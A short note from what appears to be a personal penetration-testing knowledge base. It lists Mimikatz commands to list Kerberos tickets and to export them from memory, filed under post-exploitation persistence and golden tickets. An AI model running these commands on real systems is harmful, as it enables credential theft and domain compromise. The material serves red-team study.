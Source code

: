 # Mimikatz

- Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

- Extract tickets

`mimikatz # sekurlsa::tickets /export`

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Domain Persistence/Create Ticket/Golden Ticket/C2 Frameworks/Metasploit]]